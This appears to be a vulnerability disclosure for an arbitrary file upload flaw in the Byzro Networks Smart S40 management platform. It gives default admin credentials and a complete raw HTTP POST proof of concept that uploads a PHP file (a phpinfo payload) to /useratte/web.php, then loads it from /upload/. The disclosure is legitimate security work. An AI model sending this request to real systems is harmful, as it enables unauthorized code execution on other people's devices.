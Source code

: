 There is a file upload vulnerability in Byzro Networks Smart S40 management platform

version:S40

Vulnerability location:/useratte/web.php

The import branch is entered in the code, and the uploaded files in lines 36-38 of the code do not have any suffix restrictions, causing arbitrary files to be uploaded.

![image](https://github.com/b51s77/cve/assets/50482841/8a358b44-9694-4807-853f-5d1511f5ebbd)

1. The login interface is as shown in the figure.
admin/admin

![image](https://github.com/b51s77/cve/assets/50482841/f59c19d7-a9db-4ee1-bb4e-8cb8846c8ee8)

2. Construct a POC and directly upload the 1.php file.

POC
```
POST /useratte/web.php? HTTP/1.1
Host: ip:port
Cookie: PHPSESSID=cb5c0eb7b9fabee76431aaebfadae6db
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like Gecko
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------42328904123665875270630079328
Content-Length: 597
Origin: https://ip:port
Referer: https://ip:port/sysmanage/licence.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="file_upload"; filename="2.php"
Content-Type: application/octet-stream

<?php phpinfo()?>
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="id_type"

1
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="1_ck"

1_radhttp
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="mode"

import
-----------------------------42328904123665875270630079328
```
![image](https://github.com/b51s77/cve/assets/50482841/bbe4ae4f-3fa4-46ab-9fa8-b1e736fd4c30)

3.Visit /upload/2.php

![image](https://github.com/b51s77/cve/assets/50482841/d3f0d71d-db63-4d0f-8441-0a680928a2e8)




